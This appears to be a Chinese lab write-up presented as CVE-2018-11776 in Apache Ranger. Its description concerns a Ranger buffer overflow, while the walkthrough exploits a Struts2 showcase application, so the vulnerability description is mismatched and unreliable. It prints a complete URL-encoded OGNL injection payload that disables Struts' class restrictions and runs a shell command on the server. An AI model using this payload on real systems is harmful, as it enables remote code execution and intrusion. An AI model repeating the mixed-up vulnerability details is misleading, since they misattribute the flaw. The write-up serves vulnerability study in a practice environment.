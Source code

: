 # Ranger 远程代码执行漏洞（CVE-2018-11776）by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

Apache Ranger 是美国阿帕奇（Apache）软件基金会的一套为 Hadoop集群实现全面安全措施的架构，它针对授权、结算和数据保护等核心企业安全要求，提供中央安全政策管理。Unix Authentication Service 是其中的一个身份验证服务组件。
Apache Ranger 1.2.0 之前版本中的 Unix Authentication Service 存在基于栈的缓冲区溢出漏洞，该漏洞源于程序没有正确的执行边界检查。远程攻击者可通过发送特制的请求利用该漏洞在系统上执行任意代码。

## writeup 

访问靶机地址 http://靶机IP/struts2-showcase/

![](./20200509092307.png)

构造如下参数的访问URL 
```
http://靶机IP/struts2-showcase/$%7B233*233%7D/actionChain1.action
```
利用BurpSuite抓包并改包，Go得到下图所示结果，说明存在漏洞。可以看到，233X233的结果已经在Location头中返回。 
![](./20200509092438.png)



构造poc代码
```
/struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B'struts.valueStack'%5D.context).(%23cr%3D%23ct%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec('ls%20/tmp')).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action
```
替换掉请求内容

![](./20200509092636.png)

成功获取到flag文件

